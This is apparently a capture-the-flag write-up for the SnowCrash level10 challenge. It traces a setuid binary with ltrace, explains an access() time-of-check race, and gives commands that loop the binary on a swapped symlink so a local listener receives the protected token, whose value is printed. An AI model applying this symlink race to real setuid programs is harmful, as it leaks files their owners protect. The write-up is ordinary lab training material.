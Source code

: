 # Snowcrash10

Again, same things in home


```sh
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
~$ ./level10 
./level10 file host
	sends file to host if you have access to it
~$ touch /tmp/sample ; ltrace ./level10 /tmp/sample localhost
access("/tmp/sample", 4)                                             = 0
printf("Connecting to %s:6969 .. ", "localhost")                     = 32
fflush(0xb7fd1a20Connecting to localhost:6969 .. )                                                   = 0
socket(2, 1, 0)                                                      = 3
inet_addr("localhost")                                               = 0xffffffff
htons(6969, 1, 0, 0, 0)                                              = 14619
connect(3, 0xbffff71c, 16, 0, 0)                                     = -1
printf("Unable to connect to host %s\n", "localhost"Unable to connect to host localhost
)                = 36
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Ok so it attemps to send a file to the specified hoston port 6969, so we'll probably need a server to receive it


So let's write a dirty server and let it run on the client

We still have no access to the token tho.

The process uses access, and it seems clear that it's exploitable
https://stackoverflow.com/questions/7925177/access-security-hole

We need to have one link pointing to a file we own so that access succeeds, and then make it point to the token for the server to send it to us

We need to
	- changing the link fast
	- spam the executable and hop for a correct timing
	- getting the results

```sh
#Change links
level10:/tmp$ ./script.sh
#Spam the binary
level10:~$ while true; do ./level10 "/tmp/link" 127.0.0.1; done
#Get flag while avoiding connection check spam
level10:/tmp$ ./server | grep -v '.*('
woupa2yuojeeaaed06riuj63c
```
That was fun
